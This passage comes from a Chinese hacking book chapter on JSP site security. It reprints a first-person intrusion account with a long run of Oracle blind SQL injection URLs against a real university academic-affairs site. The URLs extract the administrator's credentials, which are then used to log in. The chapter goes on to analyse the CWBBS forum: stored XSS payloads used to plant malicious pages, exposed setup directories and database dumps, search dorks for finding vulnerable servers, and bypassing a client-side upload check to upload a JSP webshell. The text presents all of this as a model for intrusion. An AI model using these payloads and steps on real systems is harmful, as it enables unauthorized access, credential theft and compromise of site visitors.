对于一个完整的 JSP 木马来说，功能不仅仅是上面所演示的执行命令。还有比如对文件的管理、操作、新建等功能。不过这些功能只需要用到普通的 JSP 文件操作函数即可完成，一般的 JSP 探针或者管理工具都会用到上面的这些知识。不过要完成复杂的功能就必须要用到 JAVA 的知识，因为这里我们并没有过多地提及 JAVA 的知识，所以如果我在分析功能强大的 JSP 木马的话，肯定很多朋友看不懂。所以，经过我与土豆的商量，决定就编写一个小马给大家，大马的分析就不讲了。大家只需要学会怎么使用大马就可以了，如果对大马感兴趣，甚至想自己编写一个的话，那么先还得对 JAVA 很熟悉。

对于 JSP 程序的安全问题我们就讨论到这里了，上面基本上提及了目前 JSP 存在的各种安全问题。不过大家应该明白，JSP 发展非常迅速。仅仅掌握我给大家的那点知识是远远不够的，因为 JSP 往往是一个系统的一部分，例如银行常常采用 J2EE+JSP+Oracle+Unix 来架构。如果仅仅掌握 JSP 是很难对整个系统有一个把握性的掌握的。所以大家要不断学习，掌握新的技术，这是一名优秀的黑客所具有的最基本的素质。

声明：本章中的部分内容引用了互联网的内容，是通过 Google 搜索到的，比如引用了 http://www.huachu.com.cn/bbs/dispbbs.asp?boardID=15&ID=43440 的《JSP 论坛安全之旅》部分内容，以及安全焦点的《JSP 安全编程实例浅析》部分内容，非常感谢这些优秀文章的作者，版权依然属于他们。

你从本章可以学到如下几点：

- 1、JSP + Oracle 手工注入详细过程
- 2、JSP 系统跨站漏洞详细分析
- 3、配置不当引起的敏感信息泄露问题
- 4、JSP 系统上传漏洞分析与利用过程

## 第十四章 JSP整站系统的安全性分析

前面两章分别为大家介绍了 JSP 的基础知识和 JSP 程序中常见的各种漏洞。相信大家都已经掌握了，不过在实践性上还是不够强，所以本章就为大家演示如何从实际中来得到经验。第一个例子演示的是 Jsp+Oracle 手工注入的文章，在前面虽然提到了 Oracle 注入的工具，但不够详细，所以就用一篇 Jsp+Oracle 手工注入的文章来增加 Oracle 注入的一个空白，这样以后在遇到了后台数据库是 Oracle 时，就知道怎么去手工入侵了。Jsp+Oracle 注入的文章是引用的由剑心写的《03 利用 Jsp+Oracle 注入再度杀入教务处》。而第二个例子《分析著名 JSP 商务系统 CWBBS 安全性》则是由我写的，教大家如何分析一个完整 JSP 系统，并从中找出漏洞，这样以后大家就知道怎么去分析 JSP 系统漏洞了。

### 14.1 Jsp+Oracle手工注入

在 Jsp+Oracle 注入方面的技术文章目前还是比较少，一方面使用 Oracle 数据库的网站并不是太多，并且大多数是大型系统，安全性非常高。所以一般能够入侵的人也不是太多，就算入侵成功了也不会写文章。因为都是大型系统，如果被公开了影响比较大，很多黑客也考虑自身安全，根本不会公布出来。

不过由剑心写的《利用 Jsp+Oracle 注入再度杀入教务处》确实非常好，不仅详细地讲解了 Oracle 数据库的注入技术，而且思路也非常清晰，所以可以作为以后大家入侵 Oracle 数据库网站的范例。下面就是该文章的内容：

## 利用 Jsp+Oracle 注入再度杀入教务处

大家可能记得上次我写过进入教务处的文章，但是想来想去还是觉得不完美，不只是没有得到网站管理的最高权限，而且前后花费的时间太长，并且是从网段的机器旁注进去的，实在不爽。既然我们是搞脚本的，那么是真的不能从 80 端口渗透么？于是就再次决定去试试了！

##### 一、判断注入点的数据库类型

因为网站是 Jsp+Unix 架构的，权限也配置得很好，没有什么目录浏览之类的漏洞，再加上上次的测试也能确定没有什么上传方面的漏洞了。这么少的功能应该是比较安全了，那么剩下的就只能看看有没有注入方面的问题了。整个网站查询数据库的地方有很多，登录的地方肯定是一个，但是测试了也是没有问题的，那么现在只能看看公告的地方了！主页上有如下一个公告：

Url: http://fuckjwc/hust//pub_message/message.jsp?fmodulecode=5100&modulecode=5100&messageid=4351  
首先提交：  
http://fuckjwc/hust//pub_message/message.jsp?fmodulecode=5100&modulecode=5100&messageid=4351 and 1=1  
正常返回如图 14-1 所示。  
接着提交：  
http://fuckjwc/hust//pub_message/message.jsp?fmodulecode=5100&modulecode=5100&messageid=4351 and 1=2  
返回信息如图 14-2 所示。
图 14-1 添加 and 1=1 返回正常
图 14-2 添加 and 1=2 返回错误

嘿嘿，有了上面两个 Url 提交的结果就可以判断出是存在 SQL 注入漏洞的了，并且能确定是一个 Int 类型的注入点，因为它将我们的 and 1=1 和 and 1=2 也当作 SQL 语句处理了。无论是什么数据库，到这一步都说明我们能注射代码的哦！让我们继续吧！知道了存在注入，就应该看看是什么类型的数据库了，直接加个单引号让它出错看看！提交：

http://fuckjwc/hust//pub_message/message.jsp?fmodulecode=5100&modulecode=5100&messageid=4351’

返回跟图 14-2 一样的结果，是出错了，但是也可以知道服务器方面是做了错误屏蔽的，这样我们就不能直接得到数据库类型了。这难不倒我！提交：

http://fuckjwc/hust//pub_message/message.jsp?fmodulecode=5100&modulecode=5100&messageid=4351/*jnc

返回还是如图 14-2 一样的结果。我们知道如果是 MySQL 的话，因为 /* 是注释字符，那么这个应该正常返回，跟图 14-1 一样的结果。这里返回错误说明不应该是 MySQL，那么继续判断吧！提交：

http://fuckjwc/hust//pub_message/message.jsp?fmodulecode=5100&modulecode=5100&messageid=4351--jnc

返回如图 14-3 一样的结果，呵呵，跟图 14-1 差不多吧！这说明当前的数据库服务器是支持“--”注释字符的，而跟 Jsp 常用搭配的支持“--”注释字符的，也就 MSSQL 和 Oracle 而已。接下来要判断数据库是 MSSQL 还是 Oracle 了，提交 Url：

http://fuckjwc/hust//pub_message/message.jsp?fmodulecode=5100&modulecode=5100&messageid=4351;

返回如图 14-4 一样的结果，说明是不支持“;”分割的多句查询哦！我们知道 MSSQL 是支持“;”多句查询的，那么这里就应该是 Oracle 了！不过还是提交个 Url 查询下 Oracle 的系统表，看看是不是真是 Oracle 吧！Url 如下：

http://fuckjwc/hust//pub_message/message.jsp?fmodulecode=5100&modulecode=5100&messageid=4351 and (select count(*) from user_tables)>0--

哈哈，正常返回如图 14-5 所示，这下确定了这个注入点是 Jsp+Oracle 的 int 类型的注入点！
图 14-3 支持 -- 注释
图 14-4 不支持；
图 14-5 确定为 Oracle 的 int 类型的注入点

##### 二、猜测后台存放管理员的用户密码的表列名

到这里就要调整下我们的注入思路了！从系统登录的地方我们看到可以选择是什么类型的用户，如图 14-6 所示，这里我们关心的肯定是如何取得系统管理员的权限！如果我们知道了用户名和密码是放在什么表中，就可以通过这个注入点进行猜测了！查看登录页面的源代码发现了这两行代码：

```html
<input name="username" type="text" class="input_text" id="username" size="9">
<input name="password" type="password" class="input_text" id="password" size="9">
```

一般的程序员在写程序的时候为了方便或者习惯，都是将列名作为变量传递的，这为我们黑盒测试带来了方便。Oracle 数据库的注入不同于其他数据库，如 Access 和 MySQL，它包含了几个系统表，这几个系统表里存储了系统数据库的表名和列名，如 user_tab_columns 系统表就存储了用户的所有表、列名，其中 table_name 表示的是系统里的表名，column_name 里的是系统里存在的列名，我们就可以通过这些系统表来猜测系统的数据库结构了！提交如下连接：

```text
http://fuckjwc/hust//pub_message/message.jsp?fmodulecode=5100&modulecode=5100&messageid=4351 and (select count(*) from user_tab_columns where column_name like '%25PASSWORD%25')>0--
```

注意其中的 %25 是 % 的 Url 编码，通过这个语句就可以查询 user_tab_columns 系统表，看里面列名与 password 相似的记录的条数，注意列名要用大写表示哦！结果返回如图 1 类似的结果，说明系统里是有 password 列的，将 %25 去掉再次提交返回如图 1 类似的结果，证实了我们的猜测！接着提交：

```text
http://fuckjwc/hust//pub_message/message.jsp?fmodulecode=5100&modulecode=5100&messageid=4351 and (select count(*) from user_tab_columns where column_name like '%25USERNAME%25')>0--
```

用相似的方法证明了 username 列的存在。接下来是判断表名了，提交：

```text
http://fuckjwc/hust//pub_message/message.jsp?fmodulecode=5100&modulecode=5100&messageid=4351 and (select count(*) from user_tab_columns where table_name like '%25ADMIN%25' and column_name like '%25USERNAME%25')>0--
```

返回错误，说明应该不存在一个名字里含有 admin 并且列名里含有 USERNAME 的表。接着判断下有没有名字里含有 USER 的目标表吧！提交：

```text
http://fuckjwc/hust//pub_message/message.jsp?fmodulecode=5100&modulecode=5100&messageid=4351 and (select count(*) from user_tab_columns where table_name like '%25USER%25' and column_name like '%25USERNAME%25')>0--
```

嘿嘿，运气不错，还真有这样的表！看看有几个吧！提交：

```text
http://fuckjwc/hust//pub_message/message.jsp?fmodulecode=5100&modulecode=5100&messageid=4351 and (select count(*) from user_tab_columns where table_name like '%25USER%25' and column_name like '%25USERNAME%25')>1--
```

这下出错了，看来只有一个这样的表哦！继续吧！看看这个表名是什么！提交：

```text
http://fuckjwc/hust//pub_message/message.jsp?fmodulecode=5100&modulecode=5100&messageid=4351 and (select count(*) from user_tab_columns where table_name like '%25USER%25' and length(table_name)=4 and column_name like '%25USERNAME%25')>0--
```

这句是猜名字含有 USER，那么长度至少是 4 啦，提交后返回错误，说明表名不是 USER。提交：

```text
http://fuckjwc/hust//pub_message/message.jsp?fmodulecode=5100&modulecode=5100&messageid=4351 and (select count(*) from user_tab_columns where table_name like '%25USER%25' and length(table_name)=5 and column_name like '%25USERNAME%25')>0--
```

正常返回啦，表名是 5 位哦？是什么呢？试试 USERS 吧！提交：

```text
http://fuckjwc/hust//pub_message/message.jsp?fmodulecode=5100&modulecode=5100&messageid=4351 and (select count(*) from users)>0--
```

正常返回啦！嘿嘿，表名和列名都猜到了，现在来查询我们需要的东西吧！提交：

```text
http://fuckjwc/hust//pub_message/message.jspfmodulecode=5100&modulecode=5100&messageid=4351 and (select count(*) from users)>100--
```

晕！正常返回啦！表里的记录这么多啊！看来很可能这是学校的所有人的用户名和密码都在这里呢！看看我的在不在里面吧！提交：

```text
http://fuckjwc/hust//pub_message/message.jsp?fmodulecode=5100&modulecode=5100&messageid=4351 and (select count(*) from users where username='0207******')=1--
```

居然正常返回了，也就是说普通用户的信息是放到这个表里的！那么管理员的信息是不是在这个表里呢？去公告里看了看，发现有个 zhaoyi 的用户，用 zhaoyi 登录教务管理员发现提示密码错误，看来是存在这个用户名的，并且属于教务管理员权限，提交：

```text
http://fuckjwc/hust//pub_message/message.jsp?fmodulecode=5100&modulecode=5100&messageid=4351 and (select count(*) from users where username='zhaoyi')=1--
```

正常返回，嘿嘿，这给了我一点点希望。既然教务管理员的信息是放到这个表里的，那么系统管理员的信息不也可能放到这个表里么？但是它是如何来区分用户的类别的呢？这个时候我记起来了在登录的地方有个选择类型的登录表单，去查看源文件发现了这个 utype 变量和下面的代码：

```html
<input type="radio" name="utype" value="8">
系统管理员</td>
```

嘿嘿，很有可能是通过 utype 这个变量来决定用户的权限的哦！并且根据编程人员的习惯，很有可能 utype=8 代表的是系统管理员，让我们看看是不是有这个列吧！提交：

```text
http://fuckjwc/hust//pub_message/message.jsp?fmodulecode=5100&modulecode=5100&messageid=4351 and (select count(utype) from users)>0--
```

太让人难过了，返回信息还是如图 14-2 所示，也就是说不存在 utype 这个列。不过肯定是存在与这类似的一个列的，提交：

```text
http://fuckjwc/hust//pub_message/message.jsp?fmodulecode=5100&modulecode=5100&messageid=4351 and (select count(type) from users)>0--
```

哈哈，正常返回了！看看我的 type 类型值是不是登录表单处的 1 吧！提交：

```text
http://fuckjwc/hust//pub_message/message.jsp?fmodulecode=5100&modulecode=5100&messageid=4351 and (select type from users where username='0207******')=1--
```

很惊喜地发现我们的猜想是对的，我的 type 值是 1。现在看看 type 值为 8 的人有几个吧！提交：

```text
http://fuckjwc/hust//pub_message/message.jsp?fmodulecode=5100&modulecode=5100&messageid=4351 and (select count(*) from users where type=8)=1--
```

果然符合系统管理员的身份，这样的用户只有一个，我们的目标也就明确了哦！

接下来是猜测管理员的用户名和密码。这里有个插曲拿来说下，也给大家一起讨论下。本来想偷懒用 Union 查询的，因为 union 查询要求系统前后查询的列数和列的类型都相同，所以首先提交：

```text
http://fuckjwc/hust//pub_message/message.jsp?fmodulecode=5100&modulecode=5100&messageid=4351 order by 23--
```

利用 order 猜测出了这个 select 查询语句的列数，然后就是艰苦的猜测列的类型了，提交：

```text
http://fuckjwc/hust//pub_message/message.jsp?fmodulecode=5100&modulecode=5100&messageid=4352 and 1=1 union select NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL from users--
```

提交这个连接正常返回，因为 NULL 是可以匹配所有类型的变量的。然后就是按顺序从头到尾慢慢匹配每个列的类型。因为 Oracle 列有三个类型：数字型、字符型和日期型，所以分别用数字、字符和 TO_DATE('2006','yyyy') 替换。但是当所有的类型都匹配完成，提交 URL：

```sql
http://fuckjwc/hust//pub_message/message.jsp?fmodulecode=5100&modulecode=5100&messageid=4352 and 1=1 union select
111,222,333,444,'jnc1','jnc2',555,'jnc3','jnc4',666,'jnc4',777,'jnc5','jnc6','jnc7','jnc8',888,'jnc9',TO_DATE('2006','yyyy'),999,100,'jnc10','jnc11' from users where username='zhaoyi'--
```

正常返回，但是当我激动地将前面的 and 1=1 变成 and 1=2 的时候，郁闷的情形发生了，返回了如图 14-2 的情况。我对 Oracle 注入并不精通，有人知道解决的办法欢迎来手册指教！

##### 三、得到后台管理员的用户密码

插曲讲完了继续我们的注入之旅吧！好在用户名和密码估计也不会太长，利用 Oracle 的几个字符函数如 `length()` 可以得到字段的长度，然后就可以利用 `substr()` 函数取得字符串的某一个特定的字符，最后为了猜测方便就用 `ascii()` 函数将字符转换成 ASCII 码，就方便猜测了！构造的猜测语句如下：

```sql
http://fuckjwc/hust//pub_message/message.jsp?fmodulecode=5100&modulecode=5100&messageid=4352 and (select length(username) from users where type>4)>1--
```

正常返回，用户名长度大于 1。

```sql
http://fuckjwc/hust//pub_message/message.jsp?fmodulecode=5100&modulecode=5100&messageid=4352 and (select length(username) from users where type>4)>2--
```

返回错误，用户名长度等于 2。

```sql
http://fuckjwc/hust//pub_message/message.jsp?fmodulecode=5100&modulecode=5100&messageid=4352 and (select ascii(substr(username,1,1)) from users where type>4)>97--
```

返回错误，应该第一位是数字。

……二分法大家都会了吧！

最后猜测出用户名字居然是 15，先不吐血了，继续猜测密码！用上面猜测用户名的办法提交：

```sql
http://fuckjwc/hust//pub_message/message.jsp?fmodulecode=5100&modulecode=5100&messageid=4352 and (select length(password) from users where type>4)>10--
```

返回错误……

长度为 8。

然后猜测密码吧：

```sql
http://fuckjwc/hust//pub_message/message.jsp?fmodulecode=5100&modulecode=5100&messageid=4352 and (select ascii(substr(password,1,1)) from users where type>4)>97--


```

……

费了 N 长的时间终于把密码猜测出来了！密码为 s8*****n！去后台登录试试！嘿嘿，果然是系统管理员呀！如图 14-6 和图 14-7 所示。看了看，也没有什么好玩的！还是得不到 webshell，不过尝试了一次 Oracle 的注入，感觉还真不错！
图 14-6　后台登录
图 14-7　进入后台

另外这个系统采用的是清华大学的一个教务管理程序，大家快去看看自己的教务处是不是采用的这种系统啊，不是学生的就不用看了！有什么问题欢迎到论坛讨论，我的 ID 是剑心。

编辑点评：Oracle 的注入文章和工具在网上并不多见，这篇文章手工注入了 Oracle 网站，同时给出了注入原理和方法，可以给初学 Oracle 注入的读者一个感性的认识。

### 14.2 分析著名 JSP 商务系统 CWBBS 安全性

CWBBS 的中文名叫云网论坛，它是采用 JSP 环境开发的一套系统，集中了论坛、CMS（网站内容管理系统）、博客、聊天室、商城、交友、语音灌水等于一体的门户式社区。这样功能非常全面的 JSP 系统在目前国内还是少见的。对于这个系统的更多内容大家可以去参考官方网站（http://www.cloudwebsoft.com/）的详细介绍。

目前非常多的网站使用这个系统作为自己的门户系统，用关键字 “Powered by CWBBS” 就可以搜索到使用这个系统的网站数目，为 9330，如图 14-8 所示。这在国内的 JSP 系统中是使用比较多的一个系统，也是站长网极力推荐的一个 JSP 商务系统。
图 14-8 使用 CWBBS 系统的网站

虽然这个系统功能非常强大，但是存在一些安全问题，其中最为严重的要数脚本跨站漏洞。至于注入漏洞方面防御得比较好，下面我们就来分析这套系统所存在的漏洞代码吧。为了更好地增加实战性，这里我用使用这个系统的网站来做测试，我们自己不搭建环境了。这个系统因为采用的是 JSP+JavaBean+Servlet+MySQL 架构，很多代码分析起来是比较麻烦的，难理解的地方我都会加上注释。

#### 一、脚本跨站漏洞

这个系统出现问题最多的就是脚本跨站漏洞。很多参数如 ID 都进行了整型转换，所以注入漏洞比较少。但是大部分地方都没有对输入代码进行转换，导致出现比较多的脚本跨站漏洞，下面就给大家分析这些存在跨站漏洞的代码。

- 1. CMS 跨站

CMS 是用于网站的内容管理系统，它主要用于文章的发布。我们都知道现在不管是什么系统都有对文章评论的功能，而这个评论如果没有对代码转换全面的话，就会出现跨站漏洞，而这里就是这样。CWBBS 的 CMS 文章评论也出现了跨站漏洞，问题出在 doc_show.jsp 文件中，它是用于显示文章的，同时也支持评论。评论的页面如图 14-9 所示，因为“姓名”和“来自”输入框没有对数据进行转换，所以出现了跨站漏洞，如图 14-10 所示。
图 14-9 评论页面
图 14-10 跨站漏洞

我们来看看系统是如何处理这些代码的，先来看看客户端中评论表单的代码，如下所示：

```html
<form name="form1" method="post" action="?op=addcomment">
<td height="24" colspan="3"><span class="style1">&nbsp; 发 表 评 论 <a name="comment"></a></span></td>
<td height="24" colspan="2" align="left">姓&nbsp;名
<input type="text" name="nick" size="15">
...............省略代码
<td width="46%" align="left">来&nbsp;自
<input name="link" type="text" size="15">
...............省略代码
</form>


```

从上面我们可以知道，这个评论表单是由 addcomment 处理的，姓名的 name 属性为 nick，来自的 name 属性为 link。接着我们来看这个表单是如何被处理的，在 doc_show.jsp 中搜索 addcomment 就可以找到处理代码了，如图 14-11 所示。
图 14-11 搜索 addcomment 找到处理代码

我们把处理代码复制下来，如下所示：

```java
String op = ParamUtil.get(request, "op");
//定义一个 op 对象，request 的作用是获得客户端输入的参数
CommentMgr cm = new CommentMgr();
//定义一个 cm 对象，作用为执行数据库语句
if (op.equals("addcomment")) {
    //执行表单中提交过来的数据
    try {   //异常处理
        cm.insert(request);
        //利用 cm 对象执行 insert 语句，将我们提交的数据插入到数据库中
    }
    catch (ErrMsgException e) {
        out.print(StrUtil.Alert(e.getMessage()));  //发生异常则输出异常原因
    }
}


```

因为采用的是 JavaBean 技术，所以我们是看不到直接的数据库操作代码了，因为系统已经把数据库操作代码封装到了 JavaBean 组件中去了。虽然都被封装到了组件中，但要进行数据库操作就是通过对象的方法来引用执行。上面定义了 op 和 cm 两个对象，op 用于获得我们从客户端输入的数据，而 cm 则是完成数据库插入操作。虽然上面不像以前的处理代码，但结果还是一样的。我们可以看到，op 对象获得数据后并没有进行任何处理和过滤，就直接把数据放入到了数据库插入操作中去执行了。没有过滤就把数据插入到了数据库中，难道这不是典型的跨站漏洞吗？

##### （2）论坛跨站

论坛是 CWBBS 系统最重要的一个部分，该论坛功能非常强大。个人感觉功能上还是仿造动网的，功能多自然漏洞也多咯，下面就来找漏洞吧！

论坛提供了一个消息中心的功能，作用是用于在论坛中的会员间发送消息，如图 14-12 就是该消息中心的页面。
图 14-12 消息中心页面

这个功能是好的，不过因为没有对输入的数据进行转换，所以发生了跨站漏洞。而且这个功能因为可以给别人发送消息，所以我们可以利用这个功能来挂马。当别人打开我们发送了挂马的消息后就会中招。例如，这里我注册了两个用户，一个为 zengyunhao，另一个为 illume5。这里我用 zengyunhao 向 illume5 发送消息，其标题和内容都为 `<iframe src=http://www.baidu.com></iframe>`，如图 14-13 所示。点击发送之后，我们进入收件箱，就发生了挂马，百度网站被打开了，如图 14-14 所示。
图 14-13 向 illume5 发送挂马代码
图 14-14 挂马成功

上面消息接收者的 name=receiver，消息标题为 title，内容为 content。我们来看看这三个变量是如何在 send_do.jsp 文件中处理的，如下所示：

```java
String title,receiver,content,errmsg="";   //定义几个 String 类型的变量
title = ParamUtil.get(request, "title");   //获得消息的标题
```

```jsp
receiver = ParamUtil.get(request, "receiver");    //获得消息的接收者
content = ParamUtil.get(request, "content");     //获得消息的内容
if(title.trim().length()==0||content.trim().length()==0)%>
<%
    errmsg += SkinUtil.LoadString(request, "res.label.message.message", "title_content_can_not_null") + "\\n";
    //标题和内容去掉两边的空格后，两者有一个为 0 的话，就弹出消息，显示标题和内容为空
    if(!errmsg.equals("")) {
        out.print(StrUtil.Alert_Back(errmsg));
        return;
    }
%>    //返回错误提示
<jsp:useBean id="Msg" scope="page" class="com.redmoon.forum.message.MessageMgr"/>
//使用 JavaBean，调用的是 com.redmoon.forum.message.MessageMgr，专门用于处理消息
<%
boolean isSuccess = false;    //设置变量 isSuccess 为 false
try {
    isSuccess = Msg.AddMsg(request);    //利用 JavaBean 获得客户端输入的所有消息
}
catch (ErrMsgException e) {
    out.println(StrUtil.Alert_Back(SkinUtil.LoadString(request, "info_operate_fail")+e.getMessage()));    //如果处理失败，就显示错误提示
}
%>
<% if (isSuccess) {    //把获得客户端消息发送出去
    out.print(SkinUtil.LoadString(request, "info_op_success"));
}
%>


```

我们再来整理一下上面的思路。首先我们在客户端输入数据，并且在客户端中会用 JavaScript 来判断是否输入了数据。数据被传到了服务端后，系统首先去掉标题和内容两边的空格并判断是否为空，如果为空就发送失败。这里我们来演示一下，收件人为 illume5，其中标题和内容全部输入空格，如图 14-15 所示。这样可以通过客户端 JavaScript 的验证了，因为它只检测是否含有数据，空格当然也算数据了。我们点击提交后，因为服务端会过滤标题和内容两边的空格，所以过滤之后它们的长度都为 0 了，自然就弹出了错误提示框了，如图 14-16 所示。
图 14-15 发送标题和内容都空格的消息
图 14-16 发生错误提示

如果我们输入的标题和内容在服务端过滤之后不为 0 的话，就使用 JavaBean，调用它的是 `com.redmoon.forum.message.MessageMgr` 类处理消息，并把消息发送出去。上面之所以发生跨站漏洞，是服务端只是简单地判断一下我们输入的标题和内容是否为空，如果为空就弹出错误提示，如果不为空就发送出去。根本没有对数据本身进行检测，所以我们输入跨站代码它也不知道，这样就自然发生了跨站攻击。

论坛相似跨站的地方还有几个，因为处理代码都基本上一样，所以代码就不再分析了。

就给大家演示下漏洞。我们可以修改自己在注册时的资料，不过在修改时并没有对输入框中的参数进行过滤，而且这里还提供了签名的功能，所以这个地方输入跨站之后，所有浏览我发的帖子都会发生跨站。所以我们可以通过发一些吸引别人的帖子来达到挂马的目的。

论坛还给了我们普通会员提供了发帖和发起辩论的功能，但是它们也同样没有过滤好，发生了跨站攻击。我这里以辩论作为演示，如图 14-17 和图 14-18 所示。
图 14-17 辩论跨站
图 14-18 跨站漏洞

##### （3）博客跨站

CWBBS 自带了博客，也是该系统的一大特色，我们只需要在论坛中注册一个用户，然后开通一下博客就拥有一个博客了。要使用博客之前必须要开通博客，其实就是填写一些博客的信息，如博客名、博客标题等等，如图 14-19 所示。可是图 14-19 中的参数都是没有经过转换和过滤的，导致出现了跨站漏洞，我们在上面填写挂马代码也会发生挂马，如图 14-20 和图 14-21 所示。
图 14-19 激活博客，填入跨站和挂马代码
图 14-20 跨站漏洞
图 14-21 博客首页挂马

先来看看服务端中对输入的数据是如何处理的，我们填好了数据之后，点击提交按钮就可以提交数据了，那么来看看这个提交是到了哪里呢？代码如下所示：

```html
<input type="submit" name="Submit" value="<lt:Label res="res.label.blog.user.userconfig" key="submit"/>">
```

我们输入的数据被提交到了 `res.label.blog.user.userconfig` 中，来看看数据是如何在 `res.label.blog.user.userconfig` 中处理的，如下所示：

```jsp
<%
String skincode = UserSet.getSkin(request); // 获得博客的皮肤数据
if (skincode.equals("")) // 如果没有提交，则使用默认皮肤
    skincode = UserSet.defaultSkin;
SkinMgr skm = new SkinMgr(); // 建立一个 skm 对象
Skin skin = skm.getSkin(skincode); // 获得皮肤代码
if (skin==null) // 如果为空，则使用默认
    skin = skm.getSkin(UserSet.defaultSkin);
String skinPath = skin.getPath(); // 获得皮肤路径
String userstr = SkinUtil.LoadString(request,"res.label.blog.user.userconfig",
"my_blog_add");
// 这里为关键代码，将我们输入的数据直接放入到数据库中
userstr = StrUtil.format(userstr, new Object[] {Global.AppName});
%>


```

上面的代码比较难懂，因为用 JavaBean 封装了。不过有一些 JSP 代码分析经验还是可以看得出来，上面一个 `request` 用于获取客户端数据，之后利用系统提供的组件实现具体的功能。上面还是可以看出，所有的数据也是没有经过任何安全措施就进入了组件里了，自然漏洞也发生了。

博客还提供了很多功能，如友情链接功能，如图 14-22 所示。
图 14-22 链接功能

不过它也同样存在跨站漏洞。客户端代码如下所示：

```html
<form action="?op=add" method="post" enctype="multipart/form-data" name="addform1">
....................省略代码
<INPUT type=submit height=20 width=80 value="<lt:Label res="res.label.blog.user.link" key="add"/>">
```

可以看到我们提交数据的表单是由文件的 `op` 对象的 `add` 方法处理的，其中提交按钮使用的是 `res.label.blog.user.link` 类，其作用是添加。再来看看是如何处理这些链接的，代码如下所示：

```jsp
<jsp:useBean id="privilege" scope="page" class="com.redmoon.forum.Privilege"/>
// 使用 javabean 组件，调用 com.redmoon.forum.Privilege 类
<%
LinkMgr lm = new LinkMgr();    // 定义对象 lm
LinkDb ld = new LinkDb();      // 定义对象 ld
String op = StrUtil.getNullString(request.getParameter("op"));
// 获得我们在客户端表单中输入的参数，是通过 op 来传递的
if (op.equals("add")) {   // 如果执行的是 add 操作，即添加
    try {
        // 如果是添加操作，就把我们获得的数据，通过 lm 对象的 add 方法添加执行
        if (lm.add(application, request))
            out.print(StrUtil.Alert(SkinUtil.LoadString(request,"res.common","info_op_success")));
    }
    catch (ErrMsgException e) {   // 如果添加错误，则显示错误信息，并返回
        out.print(StrUtil.Alert_Back(e.getMessage()));
    }
}


```

先通过 `op` 对象获得我们客户端所有输入的数据后，判断操作是否为添加，如果为添加则使用 `lm` 对象的 `add` 方法把数据加入到数据库中。数据并没有经过任何判断就使用添加方法了，这难道不是漏洞吗？因为直接提交跨站代码被封闭了，所以提交 `"><script>alert("链接跨站")</script><"`，如图 14-23 所示。点击添加按钮就把数据加进去了，自然也发生了跨站漏洞，如图 14-24 所示。
图 14-23 插入跨站代码
图 14-24 发生跨站

当然，链接不仅仅只有增加的功能，如图 14-22 中，还有编辑、删除、移动的功能。对于添加就相当于执行 `insert` 操作，而编辑则是 `update`、删除则是 `delete` 操作。同样，重新编辑一个链接也同样会发生跨站漏洞，因为代码类似，这里就不再重复了。

博客不仅仅这些地方存在跨站漏洞，如博客后台的目录管理、相册、添加文章、评论等地方都存在跨站漏洞。基本上可以输入数据的地方都存在不同程度的跨站漏洞，程序员在编写程序的时候根本就没有看到跨站的危害，所有的数据都没有进行任何过滤。

#### 二、配置不当引起敏感信息泄露

这个本来不是漏洞，也不是程序的问题。是在搭建网站的时候没有配置好服务器，导致服务器很多敏感信息泄露。这个问题是我在测试使用 CWBBS 系统网站的时候发现的，这和程序并没有很大联系，是服务器没有配置好。

CWBBS 系统中有一个 `setup` 的目录，该目录下有很多敏感信息，包括数据库，如图 14-25 所示。
图 14-25 setup 目录下的文件

它是用于论坛安装时使用的，不过有一些网站在搭建完系统之后忘记把这个目录删除掉，使得我们可以进入这个目录下。例如查看 `setup.jsp` 文件就可以得到服务器上的一些信息，包括服务器类型、网站的绝对路径等等，如图 14-26 所示。
图 14-26 setup.jsp 文件泄露的敏感信息

其他文件也可以泄露很多信息，如 `setup2.jsp` 文件居然可以配置网站后台数据库的连接，如图 14-27 所示。
图 14-27 配置数据库连接

我们点击“连接测试”就可以测试出连接数据库是否成功。`setup3.jsp` 文件还可以设置网站的环境变量，如图 14-28 所示。
图 14-28 设置网站环境变量

当然了，对于这个目录下最重要的东西是数据库我们肯定忘不了，直接在后面加上 `cwbbs.sql` 就可以看到数据库中的所有信息了，如图 14-29 所示。
图 14-29 数据库内容

当然，我测试的这个网站不仅仅是 `setup` 这个目录没有删除，就连服务器也配置得非常不合理，出现了目录浏览漏洞。我们可以遍历服务器目录中的所有文件，我们只需要在 URL 后添加目录名即可遍历目录下所有文件了，如图 14-30 所示。
图 14-30 遍历目录

对于 Tomcat 服务器，我们可以使用关键字 “Directory Listing For” 就可以找出所有使用 Tomcat 服务器而造成遍历漏洞的服务器，如图 14-31 所示。
图 14-31 Tomcat 服务器的遍历漏洞

#### 三、上传漏洞

这个系统最大的、也是致命性的漏洞恐怕就要算是上传漏洞了。CWBBS 提供了比较多的上传功能，比如在论坛中发一个帖子的时候就提供了两个上传功能，一个是上传图片、一个是上传附件，如图 14-32 所示。
图 14-32 上传页面

我们先在上传图片的上传框中上传一个 JSP 后缀的文件，系统马上就弹出一个对话框，显示只允许上传的文件格式，如图 14-33 所示。
图 14-33 只允许上传图片文件

一开始感觉这里还是挺安全的，不过后来一想觉得有点不对。因为我的网速是比较慢的，而这里验证的速度却非常快，根据以往的经验觉得它是在本地验证后缀名。马上来分析代码，终于在文件 `uploading.htm` 中找到了对图片上传处理的代码，如下所示：

```javascript
function form1_onsubmit() {
    var fileName = form1.filename.value;
    var p = fileName.lastIndexOf(".");
    if (p==-1) {
        alert("文件非法，只允许上传图像文件！");
        return false;
    }
    else {
        var len = fileName.length;
        var ext = fileName.substring(p + 1, len).toLowerCase();
        if (ext=="gif" || ext=="jpg" || ext=="png" || ext=="bmp")
        // 允许上传的文件类型
        else {
            alert("文件非法，只允许上传图像文件！");
            return false;
        }
    }
}


```

看到没有，系统只允许我们上传 `gif`、`jpg`、`png`、`bmp` 这些图片文件，其他任何文件都不允许上传，如果上传了就弹出对话框，显示“文件非法，只允许上传图像文件！”。不过它这里用的是 JavaScript 验证的，我们就有办法对付了。我们先把文件保存到本地，然后把上传类型改为 `if (ext=="gif" || ext=="jpg" || ext=="png" || ext=="bmp" || ext=="jsp")`，这样我们就能够上传 JSP 木马了。当然记得 `action` 的值要改成绝对路径。利用这个漏洞，我们可以上传 JSP 木马。

我们再来看看上传附件的地方，我们也上传一个 JSP 文件进去，同样也是弹出一个对话框，如图 14-34 所示。
图 14-34 不允许上传 JSP

